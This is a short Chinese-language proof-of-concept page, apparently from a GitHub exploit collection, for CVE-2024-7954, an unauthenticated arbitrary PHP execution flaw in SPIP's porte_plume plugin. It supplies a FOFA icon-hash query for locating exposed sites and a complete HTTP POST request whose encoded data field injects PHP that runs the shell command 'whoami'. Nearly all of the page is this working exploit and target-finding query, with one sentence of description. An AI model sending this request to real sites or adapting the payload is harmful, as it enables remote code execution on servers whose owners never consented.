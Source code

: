 # SPIP-porte_plume插件存在任意PHP执行漏洞(CVE-2024-7954)

SPIP使用的porte_plume插件存在任意代码执行漏洞。未经身份验证的远程攻击者可以通过发送精心设计的 HTTP 请求以 SPIP 用户身份执行任意 PHP。

## fofa

```java
icon_hash=="-1224668706"
```

## poc

```java
POST /index.php?action=porte_plume_previsu HTTP/1.1
Host: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36

data=AA_%5B%3Cimg111111%3E-%3EURL%60%3C%3Fphp+system%28%22whoami%22%29%3B%3F%3E%60%5D_BB
```

